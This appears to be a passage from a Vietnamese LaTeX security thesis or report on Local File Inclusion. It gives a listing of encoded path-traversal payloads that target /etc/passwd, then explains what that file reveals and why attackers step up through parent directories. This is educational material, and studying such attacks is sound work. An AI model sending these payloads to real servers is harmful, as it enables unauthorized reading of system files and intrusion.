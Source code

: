 \begin{lstlisting}[style=ES6, label={lst:lfi-payloads}, caption={Một số payload khai thác lỗ hổng \acrshort{lfi}}]
etc%c0%afpasswd
etc%c0%afpasswd%00
/etc/passwd
/etc/passwd%00
..//etc/passwd
../..//etc/passwd
..%2f/etc/passwd
..%2f..%2f/etc/passwd
%2e%2e//etc/passwd
%2e%2e/%2e%2e//etc/passwd
..%252f/etc/passwd
..%252f..%252f/etc/passwd
%252e%252e%252f/etc/passwd
%252e%252e%252f%252e%252e%252f/etc/passwd
..\/etc/passwd
..\..\/etc/passwd
%252e%252e\/etc/passwd
%252e%252e\%252e%252e\/etc/passwd..%5c/etc/passwd
..%5c..%5c/etc/passwd
..%5c..%5c..%5c/etc/passwd
\end{lstlisting}
\textbf{/etc/passwd} là tập tin chứa danh sách tài khoản người dùng trên máy chủ web dùng hệ điều hành Unix, tập tin này bắt đầu bằng chuỗi ``\texttt{root:x}'' và chứa nhiều thông tin quan trọng như tên, địa chỉ email, đường dẫn tuyệt đối đến thư mục home trên đĩa cứng, ID của quyền (hoặc nhóm quyền) của người dùng đó,..., cung cấp cho tin tặc nhiều thông tin quý giá khi bắt đầu xâm nhập vào hệ thống. Do ta không biết độ sâu của thư mục ứng dụng web so với đường dẫn gốc (root directory) của hệ điều hành nên ta phải thử truy vấn đến từng tầng thư mục cha của thư mục hiện hành đến khi chạm tới thư mục gốc sau đó truy cập đến tập tin \textbf{/etc/passwd} như ví dụ trong Đoạn mã \ref{lst:lfi-payloads}.
